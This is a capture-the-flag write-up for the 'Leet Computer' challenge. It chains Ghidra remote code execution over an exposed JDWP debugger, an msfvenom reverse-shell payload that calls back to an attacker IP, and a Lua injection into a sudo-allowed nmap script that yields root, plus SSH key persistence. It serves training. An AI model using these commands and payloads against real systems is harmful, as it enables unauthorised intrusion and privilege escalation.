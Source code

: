 ```yaml
---
description: 'Pentesting, Ghidra JDWP RCE, Sudo Misconfiguration, NSE Scripting'
---
```


# Leet Computer

## Problem

One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation.

This challenge will give you access to another network.

by Masterfox

## Solution

### Foothold

Using nmap, we find that `10.35.2.135` is running JDWP on port 18001.

JDWP allows us to debug java applications remotely. To attach to the remote debugger: `jdb -attach 10.35.2.135:18001`

```text
> classpath
```

We see that Ghidra is being debugged. When Ghidra is launched in debug mode, a well-known vulnerability allows remote attackers to achieve RCE through the JDWP, which is opened on all interfaces.

![](../../.gitbook/assets/47a4d75d2f954ce1930513559a8d411a.png)

```text
> classes
```

We see that the class `org.apache.logging.log4j.core.util.WatchManager$WatchRunnable` is used.

![](../../.gitbook/assets/4b8535367b294e7b9ad11b44c01b2f83.png)

We will set a breakpoint at this class: `stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`

The breakpoint will soon be hit. We can then use `print new java.lang.Runtime().exec("COMMAND")` to execute arbitrary commands.

### Initial Access

Now, we can make a reverse shell ELF payload with `msfvenom`.

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.24.163 LPORT=4242 -f elf >reverse.elf`

Run a Python HTTP server, and use curl on the victim machine to download the ELF payload.

![](../../.gitbook/assets/bc20ad7ad5a848e280ec4e076a67cfb0.png)

Then, execute the payload.

![](../../.gitbook/assets/bb02131dea9e4ee0851b09cec3a96cbc%20%281%29.png)

Catch the reverse shell on our Kali machine.

![](../../.gitbook/assets/775905819d49438a9b98930a17625a62.png)

Upgrade to a fully-interactive TTY: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Privilege Escalation

We can find some interesting files on e11i0t's home directory.

![](../../.gitbook/assets/b9d21c731ffa4c02a3fc64245ade2257.png)

This gives us the address range for the dev network.

There is also a Python script `mail-scan.py` that does a `nmap` scan. We can see in the below code snippet that a temporary `.nse` file is created and run. We can control the `--mail` parameter, which is reflected into the `TEMPLATE_NSE`.

```python
parser = argparse.ArgumentParser()
parser.add_argument('--ip', required=True, help='IP of the Dovecot to attacc')
parser.add_argument('--mail', required=True, help='Mail address to check')
args = parser.parse_args()

# Arguments validation
ipregex = re.compile('^([0-9]{3}\.){3}[0-9]{3}$')
if not ipregex.match(args.ip):
  print("Error: IP argument is invalid")
  exit(1)

f = NamedTemporaryFile(suffix=".nse")
with open(f.name, "w") as tmp_file:
    tmp_file.write(TEMPLATE_NSE.format(mail_address=args.mail))
    print(TEMPLATE_NSE.format(mail_address=args.mail))
system("nmap --script={} '{}'".format(tmp_file.name, args.ip))
```

Here is the location where the mail parameter is injected:

```text
portrule = shortport.port_or_service({{25, 465, 587}},
                {{"smtp", "smtps", "submission"}})


action = function(host, port)
  local cmd = stdnse.get_script_args(SCRIPT_NAME..".cmd") or "uname"
  --Prepare payload
  cmd = string.gsub(cmd, " ", "${{IFS}}")
  cmd = string.gsub(cmd, ";", "``")

  local user = stdnse.get_script_args(SCRIPT_NAME..".user") or nil
  local pwd = stdnse.get_script_args(SCRIPT_NAME..".pwd") or nil
  local from = stdnse.get_script_args(SCRIPT_NAME..".from") or "nmap@"..smtp.get_domain(host)
  local to = "{mail_address}"
  local conn_timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 8000
  local smtp_domain = stdnse.get_script_args(SCRIPT_NAME..".domain") or smtp.get_domain(host)
```

From the LinPEAS output, we also found that the `mail-scan.py` script can be executed as `sudo` with `NOPASSWD`.

![](../../.gitbook/assets/37608a7555df405fb8b2f31ff8f0edfb.png)

From GTFOBins, I found that we can use `os.execute("/bin/sh")` to spawn a root shell since we are running as root. All that's left is to deal with the quotes on both sides of `local to = "{mail_address}"`.

If we use `"; os.execute("/bin/sh"); local var="` as the mail paramter, we inject the following into the nmap script:

```text
local to = ""; os.execute("/bin/sh"); local var=""
```

Hence, we get a shell as root! Note that the `action` function only runs if any ports in `{25, 465, 587}` are discovered, however, so we would need to use `nc -nlvp 465` to open up the port on our Kali machine in order to trigger the `action` function and our `os.execute()` command.

![](../../.gitbook/assets/ad54d5560c004d868a6c58b6e9cff699.png)

Subsequently, we can use `ssh-keygen` to generate new key pairs for SSH, and add the public key to `/root/.ssh/authorized_keys` for easier pivoting. Now we can directly SSH into the root shell.

## References

* GitHub issue: [https://github.com/NationalSecurityAgency/ghidra/issues/6](https://github.com/NationalSecurityAgency/ghidra/issues/6)
* PoC: [https://thewhiteh4t.github.io/2019/03/16/Ghidra-v9.0-Remote-Code-Execution-PoC-Windows-10-1809.html](https://thewhiteh4t.github.io/2019/03/16/Ghidra-v9.0-Remote-Code-Execution-PoC-Windows-10-1809.html)
* GTFOBins: [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

